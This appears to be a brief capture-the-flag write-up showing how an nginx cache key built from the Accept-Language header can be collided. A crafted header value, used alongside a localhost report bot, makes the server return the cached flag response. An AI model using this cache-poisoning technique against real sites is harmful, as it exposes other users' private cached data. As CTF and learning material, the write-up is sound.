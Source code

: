 In nginx.conf:

```c
proxy_cache_key "$language$request_uri";

# accept-language: en,en-US;q=0.8,ja;q=0.6 -> "en"
# accept-language: pl,en-US;q=0.8,ja;q=0.6 -> "pl"
map $http_accept_language $language {
    default 'en';
    '~^(.+?),' $1;
}
```

/api/v1/flag has flag, and /api/v1/report_meme does GET request from localhost with url input.

From report_meme: http://localhost/api/v1/flag?/api/yo

- Accept-Language: `en (default)`
- proxy_cache_key == `"en/api/v1/flag?/api/yo"`

Then directly from user: http://website/api/yo

- Accept-Language: `en/api/v1/flag?,`
- proxy_cache_key == `"en/api/v1/flag?/api/yo"`

So cache hit occurs, with flag.

## Reference

https://portswigger.net/research/practical-web-cache-poisoning